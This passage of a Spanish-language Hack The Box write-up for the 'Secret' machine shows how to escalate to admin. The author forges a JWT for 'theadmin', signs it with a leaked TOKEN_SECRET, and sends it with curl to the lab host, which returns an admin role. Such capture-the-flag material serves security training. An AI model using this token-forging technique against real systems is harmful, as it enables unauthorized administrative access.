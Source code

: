 No tenemos privilegios, somos un usuario común y corriente. Veamos cómo podemos obtener el rol de administrador.
Anteriormente vimos que en el directorio **`routes`** teníamos varios archivos javascript. Analicemos **`verifytoken.js`**.

```console
p3ntest1ng:~$ cd local-web/routes && ll
.rwxrwx--- root vboxsf 2.1 KB Fri Aug 13 06:42:59 2021  auth.js
.rwxrwx--- root vboxsf 666 B  Fri Aug 13 06:42:59 2021  forgot.js
.rwxrwx--- root vboxsf 1.5 KB Wed Sep  8 20:32:32 2021  private.js
.rwxrwx--- root vboxsf 390 B  Fri Aug 13 06:42:59 2021  verifytoken.js
```

```javascript
const jwt = require("jsonwebtoken");
  
  module.exports = function (req, res, next) {
      const token = req.header("auth-token");
      if (!token) return res.status(401).send("Access Denied");
  
      try {
          const verified = jwt.verify(token, process.env.TOKEN_SECRET);
          req.user = verified;
          next();
      } catch (err) {
          res.status(400).send("Invalid Token");
      }
  };
```

Según este script de verificación, nuestro token debe estar firmado con el **`TOKEN_SECRET`** que encontramos anteriormente.
Podemos hacer todo esto en la página **https://jwt.io/**
<br/>
Veamos cómo está construido nuestro JWT (algo que ya vimos en la documentación de la web).

![JSON Web Token](/assets/images/hackthebox/machines/secret/jwt_token.png)

Podemos modificar nuestro token para cambiar nuestro usuario a **`theadmin`**, que sabemos que existe en la API y tiene privilegios.
Finalmente firmamos el nuevo token con el TOKEN_SECRET y copiamos el JWT generado.

![JWT Signed](/assets/images/hackthebox/machines/secret/jwt_signed.png)

Volvamos a probar con este nuevo token para ver si es válido y nos loguea con privilegios.

```console
p3ntest1ng:~$ curl -s -X GET "http://secret.htb:3000/api/priv" \
                -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmYTQ5NTQyZTU5NjA0NWJjZTAzNWEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAcGVudGVzdGluZy5uZXQiLCJpYXQiOjE2NDgzMzg0MjV9.F4KOyd5y9h6hTc32fCP2eUHq89jQb2ZoW3hJDGJsScA" | jq
{
  "creds": {
    "role": "admin",
    "username": "theadmin",
    "desc": "welcome back admin"
  }
}
```
